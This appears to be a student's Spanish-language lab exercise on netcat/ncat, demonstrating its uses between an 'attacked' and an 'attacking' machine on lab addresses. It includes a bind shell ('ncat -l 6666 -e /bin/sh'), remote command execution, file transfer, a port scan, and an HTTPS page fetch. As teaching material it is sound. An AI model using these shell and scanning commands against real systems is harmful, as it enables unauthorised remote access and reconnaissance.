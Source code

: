 ## Miguel Estevez
### 2017-0200


<div align="center" style="font-size:40px">Ncat: "La navaja suiza"</div>

### a. Ejecutar una aplicacion/mandato en una maquina remota.

Maquina Atacada
```bash
ncat -l 6666 -e /bin/ls
```
Maquina Atacante
```bash
ncat 10.0.0.3 6666
```
![](./img/1.png)

### b. Convertir maquina atacada en accesible por un puerto dado

```bash
ncat -l 6666 -e /bin/sh
```
![](./img/2.png)

![](./img/3.png)

### c. Enviar archivo de una maquina a otra.

**Receptor**

```bash
nc -l 1499 > salida.out
```

![](./img/5.png)

**Enviador**
```bash
nc 192.168.0.103 1499 < entrada
```

![Imagen del enviador de archivo](./img/4.png)

### d. "Escanear" puertos de maquina atacada.

```bash
nc -z -v -n 192.168.0.103 1-9000
```
![](./img/6.png)

### e. Crear cliente y servidor.

```bash
ncat -l 1499
```


```bash
ncat 192.168.0.103 1499
```

![](./img/7.png)

### f. Comunicarse con un servidor: bajar una pagina web

```bash
printf 'GET / HTTP/1.1\r\nHost: github.com\r\n\r\n' | ncat --ssl github.com 443
```
**Nota:**
La salida va estar adjunta con este documento por que es muy largo el html.
